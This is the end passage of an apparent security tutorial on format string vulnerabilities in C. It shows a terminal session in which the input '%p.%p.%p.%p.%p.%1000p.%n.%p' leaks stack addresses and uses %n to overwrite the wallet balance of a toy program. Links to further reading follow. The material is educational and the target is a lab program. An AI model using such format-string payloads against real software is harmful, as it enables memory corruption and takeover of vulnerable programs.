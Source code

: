 It looks kind of ugly, but then again, exploit development can be an ugly process ¯\\\_(ツ)_/¯

```sh
$ ./cash
Enter your name: %p.%p.%p.%p.%p.%1000p.%n.%p
0x5555555596b1.0x7fffffffde10.0x10.0x7fffffffde10.0x7ffff7fadbe0.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   (nil)..0x70252e70252e7025, your wallet is at 0x7fffffffe03c.
You currently have $1066.
You're swimming in cash!
$
```

## Practice:
- TODO: Get a TCTF challenge here.

## More Resources:
- [Format Specifiers in C](https://www.tutorialspoint.com/format-specifiers-in-c)
- [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)

## Creators

**Nihaal Prasad**

Enjoy :metal:
